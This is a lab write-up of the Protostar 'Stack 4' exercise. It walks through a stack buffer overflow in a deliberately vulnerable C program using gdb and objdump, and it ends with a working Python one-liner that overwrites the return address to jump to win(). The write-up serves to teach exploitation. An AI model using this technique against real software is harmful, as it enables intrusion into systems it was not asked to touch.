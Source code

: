 # PROTOSTAR : STACK 4
[Protostar:Stack4](https://exploit.education/protostar/stack-four/)

### **SOURCE CODE**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to overflow the **buffer** variable and somehow reach the **win()** function but there is no pointer which we can overwrite present in the code so we need to figure out the **padding** required to overwrite the **instruction pointer/eip register** which will return to the **win()** function address. *Padding is the key*.

### **SOURCE CODE**
Below is the disassembly of the **main()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) 
```
To find the padding i am going some trial and error procedure to find it out. Lets setup a breakpoint at **0x0804841e (ret)**. Lets provide some input of strings.

```
(gdb) b *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x41414149
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x41414149
) at libc-start.c:187
187     libc-start.c: No such file or directory.
        in libc-start.c
(gdb) 

```

So our **Padding = 76**, meaning 76 bytes required to overwrite the instruction pointer. Lets append the address of our **win()** function but before that lets find the address of **win()** function.
<br>
To do that :-
```
user@protostar:/opt/protostar/bin$ objdump -t stack4 | grep "win"
080483f4 g     F .text  00000014              win
```
We successfully changed the code flow by overwriting the return address of the **instruction pointer**.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*76 + '\xf4\x83\x04\x08'") | ./stack4
code flow successfully changed
Segmentation fault
```
